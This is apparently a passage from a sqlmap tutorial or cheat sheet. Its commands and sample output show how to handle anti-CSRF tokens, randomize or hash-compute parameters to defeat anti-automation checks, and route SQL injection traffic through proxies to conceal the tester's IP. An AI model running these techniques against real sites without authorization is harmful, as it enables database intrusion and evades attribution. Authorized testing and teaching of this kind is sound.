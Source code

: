 **Process Example:**
```
POST parameter 'csrf-token' appears to hold anti-CSRF token. 
Do you want sqlmap to automatically update it in further requests? [y/N] y
```

##### Unique Value Bypass

**Problem:** Application requires unique parameter values to prevent automation.

**Solution:** Randomize parameter values with `--randomize`.

```bash
# Randomize parameter value for each request
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch

# Result: Each request gets unique 'rp' value:
URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216  
URI: http://www.example.com:80/?id=1&rp=36456
```

##### Calculated Parameter Bypass

**Problem:** Application expects calculated parameter values (e.g., MD5 hash validation).

**Solution:** Use `--eval` to calculate parameters dynamically.

```bash
# Calculate MD5 hash parameter dynamically
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id.encode()).hexdigest()" --batch

# Result: 'h' parameter automatically calculated for each 'id':
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
```

**Common Eval Examples:**
```bash
# MD5 hash calculation
--eval="import hashlib; h=hashlib.md5(id.encode()).hexdigest()"

# SHA1 hash calculation  
--eval="import hashlib; h=hashlib.sha1(id.encode()).hexdigest()"

# Simple mathematical operations
--eval="sum=int(id)+int(key)"

# Timestamp generation
--eval="import time; ts=int(time.time())"
```

##### IP Address Concealing

**Proxy Usage:**
```bash
# Single proxy
sqlmap -u "URL" --proxy="socks4://177.39.187.70:33283"
sqlmap -u "URL" --proxy="http://proxy.example.com:8080"

# Proxy file (sequential usage)
sqlmap -u "URL" --proxy-file=proxies.txt

# Proxy authentication
sqlmap -u "URL" --proxy="http://user:pass@proxy.example.com:8080"
```
